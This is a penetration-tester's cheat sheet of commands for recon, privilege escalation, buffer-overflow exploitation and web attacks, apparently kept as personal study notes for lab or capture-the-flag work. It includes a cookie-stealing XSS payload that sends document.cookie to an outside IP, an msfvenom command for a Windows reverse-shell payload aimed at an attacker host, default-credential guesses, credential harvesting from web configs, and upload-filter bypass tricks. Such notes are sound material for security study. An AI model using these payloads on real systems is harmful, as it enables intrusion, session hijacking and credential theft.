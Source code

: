 # Philosophy
- first, test the potential vuln (or each step of it) by minimum cost

# Init contact
- `nmap -sC -sV -oA <name> <ip>`
- `nmap -p- -sV <ip> > all-tcp`
- `nmap -sU <ip> > comm-udp`
- `nmap --script vuln <ip>`

# http/https 80/443
- `gobuster -u http://xxxxx -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html`
  - remember to recursively scan if needed
- google its software version and find its exploit
- login page => google its default cred
- play around and see whether there is any upload/execute vuln
- check its ssl cert information, it may contain some username or email
- play with PHPSESSID, reuse it, to see what happens

# snmp udp/161
- `snmpwalk -c public -v1 <target>`
- `snmp-check -w -t 30 <target>`

# priv esc
- go to /var/www/, read config => get db cred => extract juicy info
- password reuse
- find SUID files => `find / -perm -4000 2>/dev/null`
- find all files in /home => `find /home -type f`

# manually test user pass
- admin:admin
- admin:password
- admin:Password1
- guest:guest

# file 
- exitfool xx => find hidden info, like author, email

# File Transfer
- smb share
  - (kali) `impacket-smbserver share <shared path>`
  - (windows) `net use z: \\<kali's ip>\share`
  - (windows) `copy <file\ z:`

# gdb (with peda)
- `r < <(python exp.py)`
  - (or 'set args' if take parameters)
- `r < input.txt`
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
- `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'`
- `p system` => address of function system
- `info functions` => list all functions
- `vmmap` => find which part is executable.

# binary exploit steps (with immunity dbg)
1. find EIP overflow offset
    1. `msf-pattern_create -l 300`
    1. `msf-pattern_offset -q <value>`
1. test bad chars
1. `!mona modules`
    1. see modules and their security flags. we also need to make sure the module address doesn't contain bad chars.
1. click the "e" button to see the list of executable modules. Double click on one to view its assembly code.
1. find "jmp esp" commands
    1. right click -> search for -> command, then enter "jmp esp"(or others).
    1. right click -> search for -> sequence of commands, then enter "push esp", new line, "ret".
    1. if no DEP is enabled, we can search beyond the .text section where the "search for" commands focus. We can search other sections.
        1. `msf-nasm_shell` and enter "jmp esp", it says "FFE4"
        2. `!mona find -s "\xff\xe4" -m xxx.dll
        3. you can click the button "->|" (except the | are dots)
1. place shellcode
    1. `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`

# Oracle DB exploit tool
- odat.py
  - `--sysdba` to get a 
  
# XSS
```
<script>
document.write('<img src="http://10.10.14.19/xxxx?cookie=' + document.cookie + '" />')
</script>
```

# bypass upload file filter
- https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf
- jpg.php, php.jpg, php5, php6, php7
- use system filename length limits to truncate the .png part from .php.png
